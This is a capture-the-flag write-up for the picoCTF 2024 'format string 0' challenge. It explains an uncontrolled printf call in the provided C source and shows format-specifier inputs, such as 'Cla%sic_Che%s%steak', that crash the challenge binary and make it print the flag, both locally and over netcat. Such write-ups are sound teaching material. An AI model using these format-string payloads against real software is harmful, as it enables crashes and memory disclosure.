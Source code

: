 # format string 0

```
Level: Easy
Tags: picoCTF 2024, Binary Exploitation, format_string, browser_webshell_solvable
Author: CHENG ZHANG

Description:
Can you use your knowledge of format strings to make the customers happy?
 
Hints:
1. This is an introduction of format string vulnerabilities. Look up "format specifiers" 
   if you have never seen them before.
2. Just try out the different options
```
Challenge link: [https://play.picoctf.org/practice/challenge/433](https://play.picoctf.org/practice/challenge/433)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.
```c
int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}
```
Main basically does the following:
- Make sure there is a `flag.txt` file available, 
- Sets up a signal handler for `SIGSEGV` (Invalid memory references)
- Sets permissions (user and group IDs) with `setresgid`
- Calls the `serve_patrick` function

If an invalid memory reference happens the `sigsegv_handler` function is called
```c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```
and will display the flag for us.

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary
```bash
./format-string-0  
                 
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak

picoCTF{fake_flag}


```
Of the choices I chose `Gr%114d_Cheese` and `Cla%sic_Che%s%steak` because the both contains [format specifiers](https://www.freecodecamp.org/news/format-specifiers-in-c/) which will cause the program to remove additional items on [the stack](https://en.wikipedia.org/wiki/Stack-based_memory_allocation) and cause an invalid memory reference.

The vulnerabilities are in the `printf` calls without one or more format specifiers, i.e.
- The line `int count = printf(choice1);` in the `serve_patrick` function and
- The line `printf(choice2);` in the `serve_bob` function

### Get the flag

Finally, we connect to the site vith netcat and gives the same answers to get the real flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ nc mimas.picoctf.net 58598
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{<REDACTED>}

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ 
```

For additional information, please see the references below.

## References

- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [setresuid - Linux manual page](https://man7.org/linux/man-pages/man2/setresuid.2.html)
- [signal - Linux manual page](https://man7.org/linux/man-pages/man7/signal.7.html)
- [freeCodeCamp - Format Specifiers in C](https://www.freecodecamp.org/news/format-specifiers-in-c/)
- [Wikipedia - Stack-based memory allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
- [Wikipedia - Uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
